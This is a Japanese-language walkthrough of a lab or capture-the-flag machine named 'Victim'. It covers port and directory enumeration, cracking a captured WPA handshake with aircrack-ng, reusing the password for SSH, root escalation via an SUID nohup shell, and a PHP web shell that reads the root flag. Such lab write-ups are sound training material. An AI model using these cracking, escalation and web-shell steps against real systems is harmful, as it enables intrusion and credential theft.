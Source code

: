 ## Victim
### 事前準備
  - rockyou.txt.gzファイルを解凍する
  - gunzip /usr/share/wordlists/rockyou.txt.gz 
### ポートスキャンまでは同じ
- `fping`を受け付けないこともあるので、`arp-scan`を使う
  - fpingはicmpプロトコルを飛ばしている
  - arp-scanはarpプロトコルを飛ばしている
  - `sudo arp-scan --localnet`
- 各々ポートのサービスが何で動いている
  - `22` openssh
  - `80` Apache httpd 2.4.29
  - `8080` BusyBox httpd 1.13
  - `8989` bctp
  - `9000` PHP cli server 

### ブラウザで80,8080,8999の各サイトを見てみる
- html,robots.txt

### gobusterで80, 8080を見る   
- `gobuster dir -u 192.168.56.106 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50`
  - `-x`のオプションがあると拡張子を指定できる。ただし時間がかかる。表示のProgress(当てはめた数字 / (辞書の数*拡張子の種類数))になるのをチェックする
  - `-u` オプションは、リンクの次から順に検索していく
  - `-t`はスレッドの数を指定できる。デフォルトは10で、50だと３割くらい早くなる
- 8080ポートでもやってみる、この場合はhttp://$IP:8080。するとpasswordsテキストがある。中身を見てみると、、

### pcapファイルを取得
  - pcapファイルを取得する方法は２つある
  1. 8999ポートのブラウザにアクセスする、こういう表示をディレクトリリスティングと呼ぶ。本来はディレクトリなんだが、見やすいようにブラウザが見やすいようにしている
  2. WPA-01.capファイルをダウンロードする。
  3. `wget http://192.168.56.106:8999/WPA-01.cap`

### (補足)wiresharkの設定
- 見やすいようにする
- `view` -> `PacketBytes`のチェックリストを外す 
### wiresharkを起動して中身をチェックする
- `wireshark  WPA-01.cap`とターミナルで入力
- 全体を見るために、Statics -> Protocol Hierarchyを見る、wireless LANとあることからwifiのパケットであることがわかる
- SSIDは無線LANの識別IDで要はユーザ名のことで、ここではdlinkというユーザがいることがわかる
- 暗号化がwpa1で弱いことがわかる

### wiresharkを起動して中身をチェックしてユーザ名を見つける
- 虫メガネアイコンをクリックするとバーが下に出てくる
- Case sensitiveのとこにリストがあるのでDisplay fileterをStringにする
- 右側のとこにSSIDと入力する。SSIDはユーザ名のこと
- ユーザ名のところが青くなる。ユーザ名はdlink

### 暗号解読
- 次の2つは辞書が異なるだけで、どちらでもできる
- 本に書いてるの
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt`
  - パスワードがわかる
- ParrotOSにはwifi専用のパスワード辞書があるので、それでやってみる
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/wifite.txt` 
### sshで接続する
- ユーザとwifiのパスワードをsshでも使い回していると仮定してssh接続をする
- `ssh dlink@$IP`

### 侵入
- OSを特定する
- 個人で使える管理者権限を調べる
- ここから攻略1,2がある

### (攻略1)SUIDファイルを特定する
- `find / -perm -4000 -ls 2> /dev/null`
  - `-ls`はロングフォーマットで表示する
- どっちでもいい
- `find / -perm -u=s -type f 2> /dev/null` 

### nohupコマンドでルートシェルを奪う
- `nohup /bin/sh -p -c "sh -p < $(tty) > $(tty) 2> $(tty)"`
  - GTFOBinsのSUIDのところにも書いてある
  - nohupコマンドはターミナルを閉じてもコマンドは継続して実行したいときに使うコマンド
  - -pは実ユーザ(ターミナルを起動したユーザ)と実行ユーザ(コマンドを打ったユーザ)が異なる時につけるオプション。本来は同じになるはずだが、SUIDはルート権限でするので実行ユーザが異なる。`-p`がないと、ルートにはなれない
  - $(tty)はドルパーレンと呼ぶ、単に先にコマンドを実行しているだけ
  - `< $(tty)`標準入力
  - `> $(tty)`標準出力
  - `2> $(tty)`エラー出力
### rootを取得
  - `cd /root`
  - `ls`
  - `cat flag.txt`

## (攻略2)Webシェルでルートフラグを取得
- 書き込み可能なディレクトリを検索する
  - `find / -type d -writable 2> /dev/null`
- フルパーミッションのディレクトリを探す
  - `find / -perm -0777 -type d -ls 2> /dev/null
  - `/var/www/bolt/public/files` このパスに注目する。しかも所有者がrootであることから、rootで実行できる
- ブラウザでチェックする `192.168.56.106:9000` 何が表示される?
- `cd /var/www/bolt/public/files`　に移動する      
- shell.phpファイルを作る `vim shell.php`
```php
<?php
    system($_GET['cmd']);
?>
```
- ブラウザのパスでコマンドを入力することができる
  - 次のコマンドは`cat /root/flag.txt`をすることができる 
  - `view-source:http://192.168.56.106:9000/files/shell.php?cmd=cat /root/flag.txt`
  - ちなみに上のリンクにある`/shell.php?cmd=`は、その上で作ったファイルのこと

## (確認)３つのサイトがどこにあるか？
- `80` Apache httpd 2.4.29
  - `/var/www/joomla` 
- `8080` BusyBox httpd 1.13
  - wwwディレクトリにはない  
- `8989` bctp
  - `/var/www/html` 
- `9000` PHP cli server
  - `/var/www/bold`

 ### Apacheの設定ファイル
 - 本来はポートの設定はsites-availableにあるが、ここでは80しかapacheを使っていないので、80portをjoomlaを使っている
